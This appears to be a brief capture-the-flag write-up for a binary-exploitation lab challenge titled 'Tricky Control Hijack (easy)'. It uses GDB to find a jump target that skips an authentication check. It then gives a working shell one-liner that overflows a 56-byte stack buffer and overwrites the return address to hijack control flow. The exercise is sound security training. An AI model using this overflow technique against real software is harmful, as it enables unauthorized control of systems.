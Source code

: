 # Tricky Control Hijack (easy)

1. GDB -> `disas win_authed` -> the address of instruction after auth check is **0x40203e**
2. As told in the debug output, the return address from challenge() is stored at 56 bytes from start of input buffer.

    ```shell
    echo -n -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x3e\x20\x40\x00\x00\x00\x00\x00" | /challenge/binary-exploitation-control-hijack-2-w
    ```
